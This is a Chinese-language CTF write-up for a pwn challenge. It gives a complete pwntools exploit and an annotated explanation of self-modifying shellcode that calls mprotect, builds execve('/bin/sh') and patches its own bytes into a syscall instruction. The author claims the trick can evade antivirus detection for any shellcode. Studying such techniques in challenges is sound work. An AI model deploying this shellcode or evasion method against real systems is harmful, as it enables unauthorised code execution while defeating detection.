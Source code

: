 # 自改变shellcode

by Maple

校赛的`shell_for_shell`打破防了，但学到了一个叫做**自改变shellcode**的shellcode注入方式，理论来说可以实现所有的shellcode免杀，记录一下

先贴exp：

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
p = process('./pwn')
gdb.attach(p)

#----恢复栈帧------
shellcode = """
	mov rbp, 0x404500
    mov rsp, rbp
    lea r15, [rip+0xe00]
    sub r15, 0xe16
    mov rdi, r15
    mov rsi, 0x1000
    mov rdx, 0x7
    mov rax, 0x401070
    call rax
    mov si, word ptr [r15 + 0x100]
    add si, 0x101
    mov word ptr [r15 + 0x100], si
    push 0x68
    mov rax, 0x732f2f2f6e69622f
    push rax
    mov rdi, rsp
    /* push argument array ['sh\x00'] */
    /* push b'sh\x00' */
    push 0x1010101 ^ 0x6873
    xor dword ptr [rsp], 0x1010101
    xor esi, esi /* 0 */
    push rsi /* null terminate */
    push 8
    pop rsi
    add rsi, rsp
    push rsi /* 'sh\x00' */
    mov rsi, rsp
    xor edx, edx /* 0 */
    /* call execve() */
    push SYS_execve /* 0x3b */
    pop rax
"""
payload = (b"\x00\xc0"+asm(shellcode)).ljust(0x100-3, b"\x90")+b"\x0e\x04"

print(payload)
p.send(payload)
p.interactive()
```

这边分段分析一下

## 恢复栈+调用mprotect改权限

```assembly
	mov rbp, 0x404500		;栈底恢复
    mov rsp, rbp			;rbp赋给rsp，恢复栈顶
    lea r15, [rip+0xe00]	;这里如果动调过会发现rip被保留了（其实看ida的汇编码也能看出来），就拿rip做传递栈指针
    sub r15, 0xe16			;额外减0x16，退回最开始的地址（之前总共0x16字节的汇编程序）
    mov rdi, r15			;rdi被传递,这里即addr = rdi
    mov rsi, 0x1000			;len = 0x1000
    mov rdx, 0x7			;prot = 7
    mov rax, 0x401070		;rax = 0x401070(对应mprotecct)
    call rax				;call mprotect指令
```

这里将栈底恢复为`0x404500`(因为动调发现这里有写入权限)，而写中间值是为了方便上下增长

![image-20250401233510572](./images/image-20250401233510572.png)

## 压栈构造execve的参数，准备执行shellcode

这里构造了`execve("/bin/sh",["sh",NULL],NULL)`

```assembly
	mov si, word ptr [r15 + 0x100]	;r15的值+0x100，赋给si（rsi，16位模式)
    add si, 0x101					;再将si加上0x101
    mov word ptr [r15 + 0x100], si	;修改后的si存给r15+0x100的内存位置
    /*这里是为了给后面syscall找个确定位置，顺便自加一*/
    push 0x68						;压入"h"
    mov rax, 0x732f2f2f6e69622f		;压入/bin///s到rax中
    push rax						;压入rax中的值
    mov rdi, rsp					;栈顶指针给rdi，作为路径字符串的地址，后面直接写入execve

    push 0x1010101 ^ 0x6873			;异或的值压栈，避免显式空字节
    xor dword ptr [rsp], 0x1010101	;异或解密栈顶4字节，得到'sh\x00'
    xor esi, esi /* 0 */
    push rsi 						;作为字符串的\x00
    push 8							;压入8，后面计算‘sh\x00'字符串地址用
    pop rsi							;将8弹给rsi
    add rsi, rsp					;rsi=8+rsp，指向'sh\x00'
    push rsi 						;压入sh\x00
    mov rsi, rsp
    xor edx, edx /* 0 */
    /* call execve() */
    push SYS_execve 				;等价于push 0x3b
    pop rax							;弹给rax
```

## 写入syscall

```python
payload = (b"\x00\xc0"+asm(shellcode)).ljust(0x100-3, b"\x90")+b"\x0e\x04"
```

这里是题目问题，先随便写一个代码在这里，消除第一字节为`\x00`的影响

写入了`\x90(nop)`指令填充

接下来`\x0e\x04`在第100字节那里了，然后就是`40e+101`返回给rsi，变成了`50f`,也就是`\x0f\x05`(syscall的机器码)

之后又把这个写回去，跟`pop rax`续上，执行完整的shellcode